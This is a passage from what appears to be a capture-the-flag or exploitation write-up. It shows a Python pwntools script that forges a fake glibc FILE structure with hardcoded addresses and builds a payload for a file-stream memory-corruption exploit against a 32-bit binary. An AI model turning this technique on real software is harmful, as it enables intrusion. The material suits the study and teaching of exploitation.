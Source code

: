 ## Creating a fake FILE structure
To create a fake FILE structure along with the padding I made a python script:
```python
from pwn import *

def encrypt(p):
    new_p = ''
    for c in p:
        new_p += chr(ord(c) ^ 42)
    return new_p


def forge_FILE_struct(_IO_buf_base = 0, \
        _IO_buf_end = 0, \
        chain = 0, \
        _lock = 0, \
        vtable = 0):
    forged_file = p32(0x0) # flags
    forged_file += p32(0x0) # _IO_read_ptr
    forged_file += p32(0x0) # _IO_read_end
    forged_file += p32(0x0) # _IO_read_base
    forged_file += p32(0x0) # _IO_write_base
    forged_file += p32(0x0) # _IO_write_ptr
    forged_file += p32(0x0) # _IO_write_end
    forged_file += p32(_IO_buf_base) # this is the address fprintf() will use
    forged_file += p32(_IO_buf_end)
    forged_file += p32(0x0) # _IO_save_base
    forged_file += p32(0x0) # _IO_backup_base
    forged_file += p32(0x0) # _IO_save_end
    forged_file += p32(0x0) # _markers
    forged_file += p32(chain)
    forged_file += p32(0x0) # fileno
    forged_file += p32(0x0) # _flags2
    forged_file += '' # _old_offset
    forged_file += p32(0x0) # _cur_colomn
    forged_file += p32(0x0) # _vtable_offset
    forged_file += '' # _shortbuf
    forged_file += p32(_lock)
    forged_file += p64(0xffffffffffffffff) # _offset
    forged_file += p32(0x0) # __pad1
    forged_file += p32(0x0) # __pad2
    forged_file += p32(0x0) # __pad3
    forged_file += p32(0x0) # __pad4
    forged_file += p32(0x0) # __pad5
    forged_file += p32(0x0) # _mode
    forged_file += '\x00'*40 # _unused
    forged_file += p32(vtable)
    return forged_file

exit_plt = 0x8049958
env_addr = 0xffffd992
struct_chain = 0xf7faece0
struct_lock = 0x804a1f8
struct_vtable = 0xf7fac860

payload_fd = forge_FILE_struct(_IO_buf_base = env_addr, \
        _IO_buf_end = env_addr+7, \
        chain =struct_chain, \
        _lock = struct_lock, \
        vtable = struct_vtable)

payload = 'FOOD' # everybody likes food 
payload += payload_fd
```